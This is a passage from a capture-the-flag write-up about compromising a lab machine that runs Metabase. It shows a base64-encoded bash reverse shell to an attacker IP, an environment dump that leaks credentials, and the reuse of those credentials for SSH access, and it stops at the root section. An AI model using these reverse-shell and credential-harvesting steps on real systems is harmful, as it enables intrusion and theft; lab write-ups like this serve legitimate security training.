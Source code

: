 You can look up the token in the page source by finding setup-token.
YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjE2Lzk5OTggMD4mMQ== decoded is `bash -i >&/dev/tcp/10.10.14.16/9998 0>&1`
<br>
Now that I have a shell, I went digging into the machine and found out that `env` contains credentials

{% vimhl bash %}
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=816f7160608a
FC_LANG=en-US
SHLVL=6
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
OLDPWD=/
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=/bin/busybox
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/tmp
MB_DB_FILE=//metabase.db/metabase.db
{% endvimhl %}

<br>
Using the credentials, we can now login to SSH and get the user flag

{% vimhl bash %}
META_USER=metalytics
META_PASS=An4lytics_ds20223#
{% endvimhl %}

<br>

## Getting Root

### Information Gathering
